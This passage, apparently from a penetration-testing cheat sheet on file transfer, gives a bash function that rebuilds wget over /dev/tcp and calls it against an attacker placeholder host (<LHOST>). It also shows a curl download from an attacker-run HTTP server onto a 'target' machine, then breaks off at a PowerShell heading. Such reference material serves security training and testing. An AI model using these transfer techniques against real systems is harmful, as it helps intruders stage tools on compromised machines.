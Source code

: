 ### wget version
Paste directly to the shell.
```
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
__wget http://<LHOST>/<FILE>
```
## File Transfer using Curl
Curl supports various protocols, including HTTP, HTTPS, and FTP, and is pre-installed on Linux. On Windows, PowerShell includes a built-in alias for Curl.

### Linux to Linux or Linux to Windows:

Start a Python HTTP server on the source machine.

On the target, use Curl to download:

```
curl -O http://192.168.1.100:8080/file.txt
```

### Windows PowerShell:
